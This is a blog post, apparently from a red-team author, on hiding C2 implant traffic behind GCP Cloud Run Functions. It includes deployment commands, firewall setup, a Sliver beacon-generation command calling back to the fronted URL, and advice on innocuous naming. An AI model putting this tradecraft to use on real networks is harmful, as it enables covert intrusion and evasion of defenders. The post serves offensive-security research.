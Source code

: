```yaml
---
layout: post
title:  "GCP Service Command and Control HTTP traffic forwarding part 3"
date:   2025-04-23 17:10:00 +1100
author: Stephen Bradshaw
tags:
- GCP
- Cloud Run Functions
- Cloud Run
- Serverless
- C2
- domain fronting
- forwarding
- container
- sliver
- redirector
---
```


<p align="center">
  <img width="500" height="500" src="/assets/img/google_cloud_hack_3.png" alt="Google Cloud Hacker">
</p>

This is the third and likely final part in my series on abusing GCP services for C2 implant connectivity.

The previously released [part 1](/2023/08/30/aws-service-C2-forwarding.html) and [part 2](/2025/04/09/gcp-service-C2-forwarding-part-2.html) in the series are also available if you want to read them, with part 1 in particular worth having a look at to explain the rationale behind this technique and the basic environment requirements to make a working C2 system.

This time around, Im going to be talking about [Cloud Run Functions](https://cloud.google.com/functions).

# Cloud Run Functions

In a lot of ways, using Cloud Run Functions to forward C2 implant traffic operates similarly to the [Cloud Run](https://cloud.google.com/run) approach discussed in [part 1](/2025/03/26/gcp-service-C2-forwarding.html#google-cloud-run), with one interesting difference - the ability to access your app via an auto generated URL in the `cloudfunctions.net` domain.

The code for this approach is available [here](https://github.com/stephenbradshaw/GCPCloudRunFunctionsC2Forwarder). You will notice that this code is very similar to those used in the approaches discussed in previous parts of this series, with the main difference being that this code uses the [GCP functions framework](https://github.com/GoogleCloudPlatform/functions-framework-python) instad of Flask.

The difference between "Cloud Run" and "Cloud Run Functions" for C2 traffic forwarding results from the fact that we can actually deploy Cloud Run Functions via the gcloud CLI using two different subcommands `gcloud functions` and `gcloud run`. 

The `gcloud run` subcommand is the same one that we used to deploy the "Cloud Run" example app in part 1 of this series. From what I can tell, this is the newer combined deployment approach that can be used for both "Run" and "Run Function" apps. This method gives us access to new capabilities, such as the ability to route private VPC traffic via [Direct VPC egress](https://cloud.google.com/run/docs/configuring/vpc-direct-vpc). Deployed apps of either type are accessible at two different auto generated URLs under the `run.app` domain - a longer form that is provided in the CLI output as well as a shorter form viewable alongside the longer URL in the web console under the Network tab for the given app.

The `gcloud functions` subcommand appears to be older functionality, works just for "Run Function" apps (e.g. those using the GCP Functions Framework), and does not allow Direct VPC egress, instead requiring a [Serverless VPC connector](https://cloud.google.com/vpc/docs/serverless-vpc-access) to route private VPC traffic. It does however provide us access to our app via three different auto generated URLs instead of only two. Two of these URLs are the same as for the previous method and we then get an additional auto generated URL in the `cloudfunctions.net` domain.

We will look at examples of deploying a Run Function using each of the available approaches below.

First however, make sure you have completed all the supporting steps outlined in [part 1](/2025/03/26/gcp-service-C2-forwarding.html#gcp-c2-poc-environment), and enabled the APIs in your project for Cloud Run if you have not done so before (see commands below)

```
gcloud services enable run.googleapis.com
gcloud services enable cloudbuild.googleapis.com
```

Now lets look at the two deployment approaches, starting with the unique approach that gives us access to an additional reachable endpoint.

# Cloud Run Function Deployment using "gcloud functions"

In this deployment approach, we need to use a [Serverless VPC connector](https://cloud.google.com/vpc/docs/serverless-vpc-access) to allow internal traffic from our function to our C2 instance, similar to what we required when we used [Google App Engine in part 1](/2025/03/26/gcp-service-C2-forwarding.html#google-app-engine). Set this up in the same VPC and region as your C2 instance using the GCP web interface [here](https://console.cloud.google.com/networking/connectors/list).  I used the `10.8.0.0/28` unusued network range and called mine `testconnector`. 

Then, if it does not already exist, setup a [firewall rule](https://console.cloud.google.com/net-security/firewall-manager/firewall-policies/list) for the VPC which allows traffic from the VPC connectors private IP address range to port 80 on our C2 host. I handled this by creating a rule to allow all internal traffic from the range 10.0.0.0/8 (which included the IP range assigned to my testconnector VPC connector) to TCP port 80.


With that complete, we can then deploy our app using the gcloud CLI. 

To run the deployment, we need information on the following:
* A name for our function - this appears in the generated URLs so dont make it sounds too sus - Im using the value `imlegit`
* the internal IP address of our C2 host-  `10.128.0.2` in my case,
* the region we want to deploy in `us-central1`,
* our GCP project id `legitapp-24002`, and
* the full address of our VPC connector, comprised of the GCP project ID, region and connector name, in my case `projects/legitapp-24002/locations/us-central1/connectors/testconnector`


These get slotted into a deployment command like the following. Run this using a cloned copy of the previously mentioned [source code](https://github.com/stephenbradshaw/GCPCloudRunFunctionsC2Forwarder) as the present working directory.

```
gcloud functions deploy imlegit --source . --entry-point main --region us-central1 --runtime python312 --set-env-vars='DESTINATION=10.128.0.2' --trigger-http --allow-unauthenticated --vpc-connector 'projects/legitapp-24002/locations/us-central1/connectors/testconnector'
```


This will deploy when complete will output a URL similar in form to `https://us-central1-legitapp-24002.cloudfunctions.net/imlegit`, where your app will be available.

The architecture looks similar to the following.


<p align="center">
  <img src="/assets/img/c2_architecture_basic_crf.png" alt="C2 with Cloud Run Function Fronting">
</p>


You will note that in this case, the autogenerated URL for the app has pre-populated the chosen function name into the path component (`/imlegit`). This means that whatever C2 we use has to be able to generate its implants with this value pre-populated in the callback URL. In my POC, using [Sliver](https://github.com/BishopFox/sliver), I was able to generate implant binaries for Linux to connect to this endpoint using a command like the following:


```
generate beacon -a amd64 -o linux --http https://us-central1-legitapp-24002.cloudfunctions.net/imlegit/ -s /tmp/crf_beacon
```


As mentioned, there will also be two other auto generated URLs created for our app, which can be obtained from under the Network tab for the app in the [Cloud Run web interface](https://console.cloud.google.com/run).


My additional URLs looked like the following:
* `https://imlegit-983481234768.us-central1.run.app/`
* `https://imlegit-4egjweq6kq-uc.a.run.app/`



# Cloud Run Function Deployment using "gcloud run"

Now lets look at the alternate deployment approach, which results in something functionally similar to the Cloud Run example we look at in [part 1](/2025/03/26/gcp-service-C2-forwarding.html#google-cloud-run).

This approach can use [Direct VPC egress](https://cloud.google.com/run/docs/configuring/vpc-direct-vpc) to allow private traffic flow, so we can do without the Serverless VPC. We will specify the subnet identifier that the C2 instance is running in when we do the deployment so the container that Cloud Run creates runs there for connectivity purposes.


The parameters we will use are:
* A different name for the app - Im going with `toteslegit` like I did in the original Cloud Run example,
* the internal IP address of our C2 host `10.128.0.2`,
* the region we want to deploy in `us-central1`,
* our GCP project id `legitapp-24002`, and
* a subnet to connect the apps container to for network access `projects/legitapp-24002/regions/us-central1/subnetworks/default`


The command looks like the following, run with the cloned [source code](https://github.com/stephenbradshaw/GCPCloudRunFunctionsC2Forwarder) as the present working directory.


```
gcloud run deploy toteslegit --source . --function main --set-env-vars='DESTINATION=10.128.0.2' --region=us-central1 --subnet='projects/legitapp-24002/regions/us-central1/subnetworks/default' --allow-unauthenticated
```

The deployment will spit out a URL similar to `https://toteslegit-983481234768.us-central1.run.app` where our app will then be accessible. 


The architecture looks similar to the following.


<p align="center">
  <img src="/assets/img/c2_architecture_basic_crf2.png" alt="C2 with Cloud Run Function Fronting Alt Method">
</p>


The Network tab for the app in the [Cloud Run web interface](https://console.cloud.google.com/run) will also give us information on the additional auto generated app URL, which in my case was `https://toteslegit-4egjweq6kq-uc.a.run.app/`.


# Conclusion

I believe at this point I have largely exhausted the suitable looking possibilities for abusing GCP services for C2 fronting, so this will likely be the last part in this series. However, if you are aware of any other services that I have missed that could be misused in this way, please let me know and I'll do another follow up.
